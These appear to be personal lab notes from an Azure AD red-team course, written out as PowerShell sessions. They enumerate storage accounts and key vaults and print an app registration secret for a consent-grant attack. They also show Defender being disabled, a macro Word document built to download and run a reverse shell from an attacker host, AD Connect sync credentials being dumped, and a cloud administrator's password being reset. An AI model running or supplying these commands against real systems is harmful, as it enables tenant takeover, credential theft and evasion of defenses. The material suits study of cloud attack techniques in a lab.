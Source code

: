 - List accessible Azure Storage Accounts.
```powershell
PS C:\Auditor> Get-AzStorageAccount | Select-Object -Property StorageAccountName,Kind,ResourceGroupName,Id,Location | fl *


StorageAccountName : defcorpcommon
Kind               : BlobStorage
ResourceGroupName  : Finance
Id                 : /subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/Finance/providers/Microsoft.Storage/storageAccounts/defcorpcommon
Location           : germanywestcentral
```

- List accessible Azure Key Vaults.
```powershell
PS C:\Auditor> Get-AzKeyVault


Vault Name          : ResearchKeyVault
Resource Group Name : Research
Location            : germanywestcentral
Resource ID         : /subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/Research/providers/Microsoft.KeyVault/vaults/ResearchKeyVault
Tags                :
```

- We can create a new multi-tenant App Registration and retrieve its secret which will allow us to leverage it for an Illicit Consent Grant Attack.
```
Value:ZrY8Q~JItpoknsRVaeug0SuivfQJ7s31rsy5ncen
Client ID:fb9e5146-c689-419d-8a6f-0913fadf1424
Tenant ID:e2277a76-28d6-4f61-8642-8852fddc1642
```

- We can create a reverse shell using **Out-File.ps1**.
```powershell
PS C:\AzAD\Tools> $passwd = ConvertTo-SecureString "ForCreatingWordDocs@123" -AsPlainText -Force
PS C:\AzAD\Tools> $creds = New-Object System.Management.Automation.PSCredential ("office-vm\administrator", $passwd)
PS C:\AzAD\Tools> $officeVM = New-PSSession -ComputerName 172.16.1.250 -Credential $creds
PS C:\AzAD\Tools> Enter-PSSession -Session $officeVM
[172.16.1.250]: PS C:\Users\Administrator\Documents> Set-MpPreference -DisableRealtimeMonitoring $true
[172.16.1.250]: PS C:\Users\Administrator\Documents> iex (New-Object Net.Webclient).downloadstring("http://172.16.150.72:82/Out-Word.ps1")
[172.16.1.250]: PS C:\Users\Administrator\Documents> Out-Word -Payload "powershell iex (New-Object Net.Webclient).downloadstring('http://172.16.150.72:82/Invoke-PowerShellTcp.ps1');Power -Reverse -IPAddress 172.16.150.72 -Port 4444" -OutputFile student72.doc
Saved to file student72.doc
[172.16.1.250]: PS C:\Users\Administrator\Documents> exit
PS C:\AzAD\Tools> Copy-Item -FromSession $officeVM -Path C:\Users\Administrator\Documents\studentx.doc -Destination C:\AzAD\Tools\student72.doc
```


[20.52.148.232]: PS C:\Users\student72\Documents> whoami;hostname
[20.52.148.232]: PS C:\Users\student72\Documents> dir C:\Users\
[20.52.148.232]: PS C:\Windows\Tasks> cat C:\Users\bkpadconnect\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
[172.16.1.21]: PS C:\Users\Administrator\Documents> Get-ADSyncConnector
[172.16.1.21]: PS C:\Users\Administrator\Documents> Import-Module C:\Users\Administrator\Documents\AADInternals\AADInternals.psd1
[172.16.1.21]: PS C:\Users\Administrator\Documents> Get-AADIntSyncCredentials
[172.16.1.21]: PS C:\Users\Administrator\Documents> $passwd = ConvertTo-SecureString 'password' -AsPlainText -Force
[172.16.1.21]: PS C:\Users\Administrator\Documents> $creds = New-Object System.Management.Automation.PSCredential ("Sync_DEFENG-ADCNCT_782bef6aa0a9@defcorpsecure.onmicrosoft.com", $passwd)
[172.16.1.21]: PS C:\Users\Administrator\Documents> Get-AADIntAccessTokenForAADGraph -Credentials $creds –SaveToCache
[172.16.1.21]: PS C:\Users\Administrator\Documents> Get-AADIntUser -UserPrincipalName onpremadmin@defcorpsecure.onmicrosoft.com | select ImmutableId
[172.16.1.21]: PS C:\Users\Administrator\Documents> Set-AADIntUserPassword -SourceAnchor "E2gG19HA4EaDe0+3LkcS5g==" -Password "SuperSecretpass#12321"